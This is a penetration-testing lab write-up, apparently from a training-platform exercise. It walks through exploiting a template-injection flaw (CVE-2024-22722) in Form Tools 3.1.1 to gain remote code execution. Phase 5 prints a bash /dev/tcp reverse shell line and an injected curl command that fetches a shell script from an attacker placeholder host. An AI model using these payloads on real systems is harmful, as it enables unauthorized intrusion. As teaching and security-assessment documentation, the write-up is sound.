







# Vulnerability Assessment and Penetration Testing (VAPT) 
## Overview

This repository documents a structured Vulnerability Assessment and Penetration Testing (VAPT) workflow.
The objective of this task was to demonstrate manual vulnerability discovery, exploit reasoning, and clear technical documentation, rather than tool-driven exploitation.
The engagement focused on identifying and exploiting a Server-Side Template Injection (SSTI) vulnerability leading to Remote Code Execution (RCE) and shell access.

## Scope and Authorization

- Target host: ssti.thm
- Target: Web application (Form Tools)
- Scope: Web application logic, input handling, server-side processing
- Testing Type: Black-box

## VAPT Workflow Summary

- Application Reconnaissance
- Version Identification & CVE Research
- Vulnerability Confirmation (SSTI)
- Exploitation (SSTI → RCE)
- Reverse Shell Establishment
- Post-Exploitation Validation
- Documentation & Evidence Collection

## Phase 1: Application Reconnaissance

Instead of relying on automated scanners, the application was explored manually.
During navigation, the following functionality was identified:

Forms → Views → Add Group

A user-controlled input field: Group Name

Client-side behavior was inspected, revealing that user input was directly processed and sent to the backend.


JavaScript showing user input being passed to backend logic. This indicated a possible server-side injection surface.

## Phase 2: Version Identification & Vulnerability Research

### The application version was identified as:

Form Tools 3.1.1



### Public vulnerability research revealed:

CVE-2024-22722

- Vulnerability Type: Server-Side Template Injection (SSTI)

Affected Parameter: *Group Name field*

- Impact: Remote Command Execution


CVE documentation confirming SSTI in Group Name field. This confirmed that the observed behavior aligned with a real-world vulnerability.

## Phase 3: Vulnerability Confirmation (SSTI)

To safely validate whether template evaluation was occurring, a non-malicious test payload was used:

### Payload tested: 


Expected safe behavior: literal output

### Actual result: 



Application evaluating expression instead of displaying it.

### This confirmed:

User input was being evaluated server-side by a template engine.

## Phase 4: Exploitation (SSTI → RCE)

After confirming SSTI, further testing verified that the template engine supported command execution behavior consistent with Smarty-like syntax.

Command execution was confirmed under the www-data context.



This confirms successful remote command execution, showing that attacker-controlled input is executed on the server with the privileges of the web application user (www-data).


At this stage, the vulnerability had escalated from input injection to Remote Code Execution.

## Phase 5: Reverse Shell Establishment

To demonstrate real-world impact in a controlled way, a reverse shell was established after confirming remote command execution.

### 1. Binary Identification on Target

Before crafting the payload, the execution environment was validated to understand which shell and binaries were available on the target system.



### Reverse Shell Script Used

A Bash-based reverse shell was created on the attacker system based on the binary:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

### 2. Payload Hosted on Attacker Machine
### Payload Delivery via HTTP

The payload was hosted using a temporary local web server.
The vulnerable application was then used to retrieve the file from the attacker machine.

Command executed through the vulnerable input:
```
{system('curl http://<ATTACKER_IP>:8000/shell.sh -o /tmp/shell.sh')}
```


### 3. Verifying File Saved on Target

After retrieval, the presence of the payload file on the target system was confirmed to ensure successful transfer.



### 4. Payload Execution via Vulnerable Input

The payload was then executed through the vulnerable application flow, using the same SSTI execution path that had already been validated.


### 5. Reverse Shell Received on Attacker Machine

A listener was active on the attacker system to receive the callback connection.
Once the payload executed, an interactive shell session was successfully established.


### Shell context confirmed:

User: www-data

## Phase 6: Shell Stabilization

The initial shell was unstable (no job control, limited interaction).
The session was stabilized to demonstrate realistic post-exploitation behavior and maintain reliable interaction.



### Phase 7: Post-Exploitation Validation

Access to sensitive system files was demonstrated by reading:

/etc/passwd



Demonstrates successful system-level access through the obtained shell. This confirmed the real-world impact of the vulnerability without exceeding ethical boundaries.


## Outcome

This assessment demonstrated:

- Manual vulnerability discovery 
- Understanding of server-side input processing
- Identification and validation of SSTI
- Correlation with real CVE
- Exploit chaining (SSTI → RCE → Shell)
-  post-exploitation validation


## Conclusion

This task highlights how a single improperly validated input field can escalate into full remote code execution.
It reinforces the importance of:

- Proper input sanitization
- Secure template handling
- Regular vulnerability assessments
- Understanding application behavior, not just scanning outputs
